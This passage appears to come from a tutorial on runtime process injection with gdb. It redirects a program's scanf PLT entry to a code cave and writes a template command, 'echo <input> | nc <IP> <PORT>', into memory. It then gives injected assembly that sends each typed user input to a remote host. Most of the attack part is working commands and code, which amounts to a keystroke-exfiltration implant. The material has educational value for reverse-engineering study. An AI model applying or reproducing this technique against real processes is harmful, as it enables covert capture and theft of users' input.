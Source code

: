 The above jump instruction, which uses a GOT address, will be overwritten by a simple jump to our malicious code.

The malcious code will be put in a cave at 0x401300:

```
(gdb) x/100gx 0x401300
0x401300:       0x0000000000000000      0x0000000000000000
0x401310:       0x0000000000000000      0x0000000000000000
0x401320:       0x0000000000000000      0x0000000000000000
0x401330:       0x0000000000000000      0x0000000000000000
...
```

> Code caves can be found by searching for empty space in a binary using scripts or tools, or even by visual inspection (e.g. `x/1000gx <addr>` in gdb).

To jump to our code cave, we turn the jump in `scanf@plt` to this:

```
   0x0000000000401060 <+0>:     e9 9b 02 00 00  jmpq   0x401300
```

#### Put a template attack string in the code cave

A template attack string is written to 0x401400. This will be used to generate a "fresh" attack string each time `scanf()` is called by `chat()`

```
'echo                          | nc <IP> <PORT>'
```

The space is where the user input will go. Extra space characters are ignored by the shell, so we only have to make enough room for the maximum input length.

We find the bytes we need in memory, and use `bncpy()` to write them all to memory.

e.g. "echo":

```
(gdb) find/1 0x7ffff7de4000, +99999999999, {char[1]}"e"
0x7ffff7de49cc
(gdb) find/1 0x7ffff7de4000, +99999999999, {char[3]}"cho"
0x7ffff7df73ea
```

> `strings -tx` can also be useful for `grep`'ing needed strings, as covered in the previous post.

#### Put malicious code at the start of the code cave

This code will run each time `scanf()` is called from `chat()`:

```bash
0x401300:    mov    $0x401380,%edi
0x401305:    nop
0x401306:    nop
0x401307:    mov    $0x401400,%esi
0x40130c:    mov    $0x37,%cl
0x40130e:    rep movsb %ds:(%rsi),%es:(%rdi)
0x401310:    mov    $0x401500,%edi
0x401315:    movabs $0x7ffff7e57320,%rax
0x40131f:    callq  *%rax
0x401321:    mov    $0x401500,%esi
0x401326:    mov    $0x401385,%edi
0x40132b:    movsb  %ds:(%rsi),%es:(%rdi)
0x40132c:    cmpb   $0x0,(%rsi)
0x40132f:    jne    0x40132b
0x40133d:    mov    $0x401380,%edi
0x401342:    movabs $0x7ffff7e29c30,%rax
0x40134c:    callq  *%rax
0x40134e:    mov    0x401500,%cl
0x401355:    mov    $0x401187,%eax
```